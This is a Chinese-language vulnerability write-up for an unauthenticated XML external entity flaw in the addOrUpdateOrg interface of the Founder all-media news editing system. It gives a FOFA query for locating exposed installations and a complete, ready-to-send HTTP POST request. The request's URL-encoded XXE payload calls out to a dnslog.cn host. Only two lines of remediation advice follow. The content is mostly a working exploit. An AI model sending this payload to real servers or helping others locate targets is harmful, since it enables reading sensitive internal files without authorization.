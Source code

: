 **漏洞描述**

方正畅享全媒体新闻采编系统 addOrUpdateOrg 接口处存在XML实体注入漏洞，未经身份认证的攻击者可以利用此漏洞读取系统内部敏感文件，获取敏感信息，使系统处于极不安全的状态

**漏洞环境**

FOFA语法：app="FOUNDER-全媒体采编系统"

**漏洞复现**

```yaml
POST /newsedit/api/orgUser/addOrUpdateOrg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close
 
xmlStr=%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%20remote%20SYSTEM%20%22http://11111111111.m9cp0s.dnslog.cn%22%3E%20%25remote;%5D%3E
```

#### 》》》修复建议《《《

关闭互联网暴露面或接口设置访问权限
升级至安全版本